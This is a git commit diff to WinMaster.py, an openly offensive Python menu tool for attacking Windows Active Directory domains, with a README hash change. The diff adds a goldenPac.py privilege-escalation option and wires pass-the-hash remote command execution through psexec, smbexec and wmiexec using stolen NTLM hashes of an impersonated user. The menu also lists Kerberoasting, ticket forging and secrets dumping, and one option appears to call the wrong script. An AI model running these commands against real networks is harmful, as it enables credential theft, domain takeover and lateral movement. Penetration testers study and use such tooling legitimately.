

Updates

diff --git a/WinMaster.py b/WinMaster.py
@@ -261,16 +261,16 @@ def display():
 
 # ----------------------------------------------------------------------------------------------------------------------------------------------------
 
-   print u'\u2551' + "(0) Save/Exit          (10) Re/Set WIN COMMAND (20) Get Arch (30) Enum4Linux     (40) Kerb Users Info (50) Domain Dump  (60) FTP    " + u'\u2551'
-   print u'\u2551' + "(1) Re/Set DNS SERVER  (11) Re/Set CLOCK TIME  (21) Net View (31) WinDap Search  (41) Kerb Filter     (51) Blood Hound  (61) SSH    " + u'\u2551'
-   print u'\u2551' + "(2) Re/Set REMOTE IP   (12) Re/Set DIRECTORY   (22) Services (32) Lookup Sids    (42) Kerb Bruteforce (52) ACL Pawn     (62) TelNet " + u'\u2551'
-   print u'\u2551' + "(3) Re/Set USERNAME    (13) Check Connection   (23) AtExec   (33) Sam Dump Users (43) Kerb Roasting   (53) Secrets Dump (63) NetCat " + u'\u2551'
-   print u'\u2551' + "(4) Re/Set PASSWORD    (14) Check DNS Records  (24) DcomExec (34) Rpc Dump       (44) Kerb ASREPRoast (54) CrackMapExec (64) WinRem " + u'\u2551'
-   print u'\u2551' + "(5) Re/Set NTLM HASH   (15) Check DNS SERVER   (25) PsExec   (35) REGistery      (45) PASSWORD2HASH   (55) WmiExec HASH (65)        " + u'\u2551'
-   print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) SmbExec  (36) Smb Client     (46) Pass the Hash   (56)              (66)        " + u'\u2551'
-   print u'\u2551' + "(7) Re/Set DOMAIN SID  (17) Nmap Subdomains    (27) WmiExec  (37) SmbMap SHARE   (47) Pass the Ticket (57)              (67)        " + u'\u2551'
-   print u'\u2551' + "(8) Re/Set SHARE NAME  (18) Nmap Intense TCP   (28) IfMap    (38) SmbMount SHARE (48) Silver Ticket   (58)              (68)        " + u'\u2551'
-   print u'\u2551' + "(9) Re/Set IMPERSONATE (19) Nmap Slow and Full (29) OpDump   (39) Rpc Client     (49) Golden Ticket   (59)              (69)        " + u'\u2551'
+   print u'\u2551' + "(0) Save/Exit          (10) Re/Set WIN COMMAND (20) Get Arch (30) Enum4Linux     (40) Kerb Users Info (50) Golden PAC   (60) FTP    " + u'\u2551'
+   print u'\u2551' + "(1) Re/Set DNS SERVER  (11) Re/Set CLOCK TIME  (21) Net View (31) WinDap Search  (41) Kerb Filter     (51) Domain Dump  (61) SSH    " + u'\u2551'
+   print u'\u2551' + "(2) Re/Set REMOTE IP   (12) Re/Set DIRECTORY   (22) Services (32) Lookup Sids    (42) Kerb Bruteforce (52) Blood Hound  (62) TelNet " + u'\u2551'
+   print u'\u2551' + "(3) Re/Set USERNAME    (13) Check Connection   (23) AtExec   (33) Sam Dump Users (43) Kerb Roasting   (53) BH ACLPwn    (63) NetCat " + u'\u2551'
+   print u'\u2551' + "(4) Re/Set PASSWORD    (14) Check DNS Records  (24) DcomExec (34) Rpc Dump       (44) Kerb ASREPRoast (54) Secrets Dump (64)        " + u'\u2551'
+   print u'\u2551' + "(5) Re/Set NTLM HASH   (15) Check DNS SERVER   (25) PsExec   (35) REGistery      (45) PASSWORD2HASH   (55) CrackMapExec (65)        " + u'\u2551'
+   print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) SmbExec  (36) Smb Client     (46) Pass the Hash   (56) PsExec HASH  (66)        " + u'\u2551'
+   print u'\u2551' + "(7) Re/Set DOMAIN SID  (17) Nmap Subdomains    (27) WmiExec  (37) SmbMap SHARE   (47) Pass the Ticket (57) SmbExec HASH (67)        " + u'\u2551'
+   print u'\u2551' + "(8) Re/Set SHARE NAME  (18) Nmap Intense TCP   (28) IfMap    (38) SmbMount SHARE (48) Silver Ticket   (58) WmiExec HASH (68)        " + u'\u2551'
+   print u'\u2551' + "(9) Re/Set IMPERSONATE (19) Nmap Slow and Full (29) OpDump   (39) Rpc Client     (49) Golden Ticket   (59) Remote Login (69)        " + u'\u2551'
    print u'\u255A' + (u'\u2550')*132 + u'\u255D'
 
 # -------------------------------------------------------------------------------------
@@ -1380,11 +1380,33 @@ while True:
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - ldapdomaindump -u DOMAIN\USER:PASSWORD IP -o DIRECTORY.
+# Details : Menu option selected - goldenpac.py -dc-ip IP -target-ip IP DOMAIN/USER:PASSWORD@DOMAIN
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection =='50':
+      print "\n[+] Trying user " + USR.rstrip(" ") + "...\n"
+      os.system(PRO + "goldenPac.py -dc-ip " + TIP.rstrip(" ") + " -target-ip " + TIP.rstrip(" ") + " " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + HST.rstrip(" "))
+
+      print "\n[+] Trying user " + POR.rstrip(" ") + " (IMPERSONATE)...\n"
+      HASH = "................................"
+      for x in range (0, MAX):
+         if US[x].rstrip(" ") == POR.rstrip(" "):    # IMPERSONATE VALUE
+            HASH = PA[x].rstrip(" ")                 # GET HASH
+      if HASH[:1] != ".":
+         command(PRO + "goldenPac.py -dc-ip " + TIP.rstrip(" ") + " -target-ip " + TIP.rstrip(" ") + " -hashes :" + HASH + " "  + HST.rstrip(" ") + "/" + POR.rstrip(" ") + "@" + HST.rstrip(" "))
+      else:
+         command("echo 'Hash value was not found...")
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : 1.0
+# Details : Menu option selected - ldapdomaindump -u DOMAIN\USER:PASSWORD IP -o DIRECTORY.
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection =='51':
       os.system("ldapdomaindump -u '" + HST.rstrip(" ") + '\\' + USR.rstrip(" ") + "' -p " + PAS.rstrip(" ") + " " + TIP.rstrip(" ") + " -o " + DIR.strip(" "))
       print "\n[+] Checking downloaded files: \n"
       command("ls -la ./" + DIR.rstrip(" "))
@@ -1397,7 +1419,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='51':
+   if selection =='52':
       command("echo 'Reserved for BLOODHOUND command...'")
 
 # ------------------------------------------------------------------------------------- 
@@ -1408,7 +1430,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='52':
+   if selection =='53':
       command("aclpwn -du " + BH1 + " -dp " + BH2 + " -f " + USR.rstrip(" ") + " -d " + HST.rstrip(" ") + " -sp " + PAS.rstrip(" ") + " -s " + TIP.rstrip(" "))
 
 # ------------------------------------------------------------------------------------- 
@@ -1419,7 +1441,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='53':
+   if selection =='54':
       print "\n[+] Please wait...\n"
       os.remove("SECRETS.tmp")
       os.system(PRO + "secretsdump.py " + HST.rstrip(" ") + '/' + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + TIP.rstrip(" ") + " >> SECRETS.tmp")
@@ -1456,7 +1478,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='54':
+   if selection =='55':
       if (USR[:1] != "\"") & (PAS[:1] != "\""):
          print "\n[-]Trying user " + USR.rstrip(" ") + " with password " + PAS.rstrip(" ") + "...\n"
          os.system("crackmapexec -u " + USR.rstrip(" ") + " -p " + PAS.rstrip(" ") + " --shares " + TIP.rstrip(" ")) 
@@ -1480,58 +1502,79 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='55':
+   if selection =='56':
       print "\n[-]Trying user " + USR.rstrip(" ") + " with NTLM HASH " + FRST.rstrip("\n") + "...\n"
-      os.system(PRO + "wmiexec.py -hashes :" + FRST.rstrip("\n") + " " + USR.rstrip(" ") + "@" + TIP.rstrip(" "))
+      os.system(PRO + "psexec.py -hashes :" + FRST.rstrip("\n") + " " + USR.rstrip(" ") + "@" + TIP.rstrip(" "))
       print "\n[-]Trying user " + POR.rstrip(" ") + " (IMPERSONATE) with their associated NTLM HASH...\n"
+      HASH = "................................"
       for x in range (0,MAX):
          if US[x].rstrip(" ") == POR.rstrip(" "):
             HASH = PA[x].rstrip(" ")
-      command(PRO + "wmiexec.py -hashes :" + HASH + " " + POR.rstrip(" ") + "@" + TIP.rstrip(" "))
+      if HASH[:1] != ".":
+         command(PRO + "psexec.py -hashes :" + HASH + " " + POR.rstrip(" ") + "@" + TIP.rstrip(" "))     
+      else:
+         command("echo 'No hash value was found for user " + POR.rstrip(" ") + "...'")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - 
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection =='56':
-      exit(1)       
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : 1.0
-# Details : Menu option selected - 
+# Details : Menu option selected - Remote Windows login using IMPERSONATE & NTLM HASH.
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection =='57':
-      exit(1)       
+      print "\n[-]Trying user " + USR.rstrip(" ") + " with NTLM HASH " + FRST.rstrip("\n") + "...\n"
+      os.system(PRO + "smbexec.py -hashes :" + FRST.rstrip("\n") + " " + USR.rstrip(" ") + "@" + TIP.rstrip(" "))
+      print "\n[-]Trying user " + POR.rstrip(" ") + " (IMPERSONATE) with their associated NTLM HASH...\n"
+      HASH = "................................"
+      for x in range (0,MAX):
+         if US[x].rstrip(" ") == POR.rstrip(" "):
+            HASH = PA[x].rstrip(" ")
+      if HASH[:1] != ".":
+         command(PRO + "smbexec.py -hashes :" + HASH + " " + POR.rstrip(" ") + "@" + TIP.rstrip(" "))
+      else:
+         command("echo 'No hash value was found for user " + POR.rstrip(" ") + "...'")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - 
+# Details : Menu option selected - Remote Windows login using IMPERSONATE & NTLM HASH.
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection =='58':
-      exit(1) 
+      print "\n[-]Trying user " + USR.rstrip(" ") + " with NTLM HASH " + FRST.rstrip("\n") + "...\n"
+      os.system(PRO + "wmiexec.py -hashes :" + FRST.rstrip("\n") + " " + USR.rstrip(" ") + "@" + TIP.rstrip(" "))
+      print "\n[-]Trying user " + POR.rstrip(" ") + " (IMPERSONATE) with their associated NTLM HASH...\n"
+      HASH = "................................"
+      for x in range (0,MAX):
+         if US[x].rstrip(" ") == POR.rstrip(" "):
+            HASH = PA[x].rstrip(" ")
+      if HASH[:1] != ".":
+         command(PRO + "smbexec.py -hashes :" + HASH + " " + POR.rstrip(" ") + "@" + TIP.rstrip(" "))   
+      else:
+         command("echo 'No hash value was found for user " + POR.rstrip(" ") + "...'")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - 
+# Details : Menu option selected - Windows remote login on port 5985.
 # Modified: N/A
-# ------------------------------------------------------------------------------------- 
-   
+# -------------------------------------------------------------------------------------
+
    if selection =='59':
-      exit(1)          
+      os.system('echo "require \'winrm\' " > winshell.rb')
+      os.system('echo "" >> winshell.rb')
+      os.system('echo "conn = WinRM::Connection.new(" >> winshell.rb')
+      os.system('echo "  endpoint: \'http://"' + TIP.rstrip(" ") + '":5985/wsman\', " >> winshell.rb')
+      os.system('echo "  user: \'"' + USR.rstrip(" ") + '"\'," >> winshell.rb')
+      os.system('echo "  password: \'"' + PAS.rstrip(" ") + '"\'," >> winshell.rb')
+      os.system('echo ")" >> winshell.rb')
+      os.system("cat shell.txt >> winshell.rb") # ADD REST WHEN YOU HAVE TIME!!
+      command("ruby winshell.rb")         
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1581,21 +1624,12 @@ while True:
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - Windows remote login on port 5985.
+# Details : Menu option selected - 
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection =='64':
-      os.system('echo "require \'winrm\' " > winshell.rb')
-      os.system('echo "" >> winshell.rb')
-      os.system('echo "conn = WinRM::Connection.new(" >> winshell.rb')
-      os.system('echo "  endpoint: \'http://"' + TIP.rstrip(" ") + '":5985/wsman\', " >> winshell.rb')
-      os.system('echo "  user: \'"' + USR.rstrip(" ") + '"\'," >> winshell.rb')
-      os.system('echo "  password: \'"' + PAS.rstrip(" ") + '"\'," >> winshell.rb')
-      os.system('echo ")" >> winshell.rb')
-      os.system("cat shell.txt >> winshell.rb") # ADD REST WHEN YOU HAVE TIME!!
-
-      command("ruby winshell.rb")
+      exit(1) 
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    

diff --git a/README.md b/README.md
@@ -5,7 +5,7 @@ Usage: python WinMaster.py neo4j password
 
 | LANGUAGE  | FILENAME         | MD5 Hash                         |
 |------     |------            | -------                          |
-| python    | WinMaster.py     | 5ecced0832d553adb498ae7f6f04435c |
+| python    | WinMaster.py     | 19b74e7eb703b6427a0a4559006cf935 |
 | text file | config.txt       | 517ca6d2b592ac7aefeaf1e03e890ee6 |
 | bash file | shell.txt        | bace3193abb905876c00e082fc94d550 |
 
